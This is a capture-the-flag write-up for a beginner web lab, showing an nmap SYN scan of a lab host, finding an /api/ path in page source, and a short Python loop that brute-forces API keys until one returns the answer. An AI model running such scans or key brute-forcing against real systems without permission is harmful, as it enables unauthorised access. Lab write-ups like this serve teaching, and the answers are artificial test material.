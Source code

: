 ### IP
`10.10.47.98`

### What is the port number for the web server?

`8000`

found with:

```
$ sudo nmap -v -sS 10.10.47.98
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-16 17:10 CET
Initiating Ping Scan at 17:10
Scanning 10.10.47.98 [4 ports]
Completed Ping Scan at 17:10, 2.61s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 17:10
Completed Parallel DNS resolution of 1 host. at 17:10, 0.04s elapsed
Initiating SYN Stealth Scan at 17:10
Scanning 10.10.47.98 [1000 ports]
Discovered open port 8000/tcp on 10.10.47.98
Completed SYN Stealth Scan at 17:10, 4.40s elapsed (1000 total ports)
Nmap scan report for 10.10.47.98
Host is up (0.37s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE
8000/tcp open  http-alt
```

### What is the directory for the API, without the API key?

`/api/`

I found it in website's `http://10.10.47.98:8000/` source:

`<li><a href="http://machine_ip/api/api_key">Modular modern free</a></li>`

### Where is Santa right now?

We used a python script `apibrute.py` to brute force the API

```
#!/usr/bin/env python

import requests

for api_key in range(1,100,2):
    print(f"api_key {api_key}")
    html = requests.get(f'http://10.10.47.98:8000/api/{api_key}')
    print(html.text) 
```

 which gives:
```
api_key 57
{"item_id":57,"q":"Winter Wonderland, Hyde Park, London."}
```
